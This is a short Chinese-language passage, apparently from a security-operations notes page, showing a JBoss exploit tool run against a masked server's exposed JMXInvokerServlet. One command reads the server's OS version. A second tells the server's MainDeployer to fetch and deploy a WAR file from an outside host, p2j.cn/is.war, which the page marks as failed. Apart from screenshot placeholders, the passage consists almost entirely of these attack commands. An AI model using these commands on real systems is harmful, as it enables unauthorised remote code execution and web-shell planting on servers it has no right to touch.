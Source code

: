 ![](\assets\img\安全运维\file_html_228e2132d6117e7e.png)


查看系统版本

C:\\Users\\Aerfa&gt;java -jar c:/jboss\_exploit\_fat.jar -i
http://yy.yy.yy.yy/invoker/JMXInvokerServlet get jboss.system:type=ServerInfo OSVersion

![](\assets\img\安全运维\file_html_520647a32422e3a2.png)

远程部署war包（失败）

C:\\Users\\Aerfa&gt;java -jar c:/jboss\_exploit\_fat.jar -i
http://yy.yy.yy.yy/invoker/JMXInvokerServlet invoke jboss.system:service=MainDeployer deploy
http://p2j.cn/is.war

![](\assets\img\安全运维\file_html_f6f6157ae371b472.png)
